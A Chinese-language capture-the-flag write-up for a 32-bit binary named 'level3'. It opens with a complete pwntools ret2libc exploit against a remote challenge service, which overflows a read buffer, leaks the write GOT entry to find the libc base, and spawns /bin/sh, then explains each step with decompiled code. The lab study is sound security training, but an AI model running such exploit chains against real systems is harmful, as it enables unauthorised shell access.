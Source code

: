 先附上exp:

```python
from pwn import *
context.log_level = "debug"
p = remote('61.147.171.105','54780')
libc = ELF('libc_32.so.6')
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh"))
elf = ELF('level3')
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']

payload = b'A' * (0x88 + 4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
p.sendlineafter("Input:\n", payload)
write_addr = u32(p.recv()[0:4])
write_offset = libc.symbols['write']
libc_addr = write_addr - write_offset
system_addr = libc_addr + system_offset
binsh_addr = libc_addr + binsh_offset
payload = b"A"*(0x88+4) + p32(system_addr) + b"A"*4 + p32(binsh_addr)
p.sendline(payload)

p.interactive()
```

背景介绍（全靠chatgpt）

`libc_32.so.6` 是一个 Linux 系统下的动态链接库文件，通常被称为 C 库或 libc。

在 Linux 系统中，`libc` 是一个非常重要的库，提供了许多与系统函数和标准 C 函数相关的功能和符号。它包含了大量的函数和符号，用于处理字符串、内存分配、文件 I/O、进程管理、网络通信等等。这些函数和符号是在编译和链接程序时使用的。

`libc_32.so.6` 是针对 32 位的 Linux 系统的 C 库文件。它的命名约定是 `libc_32.so.X`，其中 `X` 是一个特定的版本号，用于区分不同的 libc 版本。这个库文件通常位于系统的共享库目录中，例如 `/lib` 或 `/usr/lib`。

就是相当于把一个库打包过来了，然后调用的时候会从里面找相应的函数进行调用

反编译源码如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
 
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]
 
  write(1, "Input:\n", 7u);
  return read(0, &buf, 0x100u);
}
```

这里的read是溢出点

先找出libc文件中的system和/bin/sh的偏移地址

```python
libc = ELF("libc_32.so.6")
 
system_offset = libc.symbols['system']
binsh_offset = libc.search('/bin/sh').next()
```

这里libc的so文件是作为动态库载入的，所以在偏移地址的基础上，还需要找到库的基地址，这里我们用write函数获取基地址

```python
elf = ELF("level3")
 
write_plt = elf.plt["write"]
write_got = elf.got["write"]
main_addr = elf.symbols["main"]
 
payload = "A"*(0x88+4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
```

获取了write函数的PLT地址和GOT地址还有main地址

这里构造语句

```c
write(1, write_got, 4)
```

即可获得wirte_got的地址，即可算出来libc库的基地址

```c
write_addr = u32(cmd_remote.recv()[0:4])
write_offset = libc.symbols["write"]
libc_addr = write_addr - write_offset
system_addr = libc_addr + system_offset
binsh_addr = libc_addr + binsh_offset
```

然后即可用ROP获取flag